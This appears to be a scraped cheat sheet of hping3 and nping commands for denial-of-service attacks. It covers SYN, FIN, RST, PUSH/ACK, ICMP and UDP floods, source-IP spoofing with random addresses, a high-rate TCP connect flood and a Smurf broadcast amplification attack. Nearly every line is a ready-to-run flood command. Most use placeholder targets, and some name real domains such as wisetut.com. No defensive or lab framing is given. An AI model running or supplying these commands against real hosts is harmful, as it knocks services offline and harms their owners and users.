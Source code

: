 #SYN flood – DoS using HPING3
* hping3 -S —flood -V www.hping3testsite.com
#-p option is used to set the remote port number for the flood
#-S option is used to set the flood type for the TCP protocol which is the sync flood
* hping3 -S —flood -p 80 www.wisetut.com

* hping3 —traceroute -v -1 www.wisetut.com #the traceroute feature which is used to identify the intermediate hosts between source and destination

* Advanced SYN flood with random source IP, different data size, and window size
* hping3 -c 20000 -d 120 -S -w 64 -p TARGET_PORT —flood —rand-source TARGET_SITE
* –flood: sent packets as fast as possible
* –rand-source: random source address
* -c –count: packet count
* -d –data: data size
* -S –syn: set SYN flag
* -w –win: winsize (default 64)
* -p –destport: destination port (default 0)
* $hping3 -S —flood -V -p TARGET_PORT TARGET_SITE


### FIN floods
* $hping3 —flood —rand-source -F -p TARGET_PORT TARGET_IP
* TCP RST Flood
* $hping3 —flood —rand-source -R -p TARGET_PORT TARGET_IP
* PUSH and ACK Flood
* $hping3 —flood —rand-source -PA -p TARGET_PORT TARGET_IP
* ICMP flood
* $hping3 —flood —rand-source -1 -p TARGET_PORT TARGET_IP

### UDP Flood
* –flood: sent packets as fast as possible
* –rand-source: random source address
* –udp: UDP mode
* -p –destport: destination port (default 0)
* $hping3 —flood —rand-source —udp -p TARGET_PORT TARGET_IP
* SYN flood with spoofed IP – DoS using HPING3
* $hping3 -S -P -U —flood -V —rand-source www.hping3testsite.com
* TCP connect flood – DoS using NPING
* $nping —tcp-connect -rate=90000 -c 900000 -q www.hping3testsite.com    
    
    
* use routers broadcast IP address feature to send messages to multiple IP addresses 
* use connection-less protocols that do not validate source IP addresses.
* amplification techniques;Smurf attack(ICMP amplification), DNS amplification, and Fraggle attack(UDP amplification)
    

Smurf Attack
* This command sends ping requests to broadcast IP(10.10.15.255) by spoofing target IP(10.10.15.152). 
* All running hosts in this network reply to the target.
* $hping3 —icmp —spoof TARGET_IP BROADCAST_IP
* $hping3 —icmp —spoof 10.10.15.152 10.10.15.255

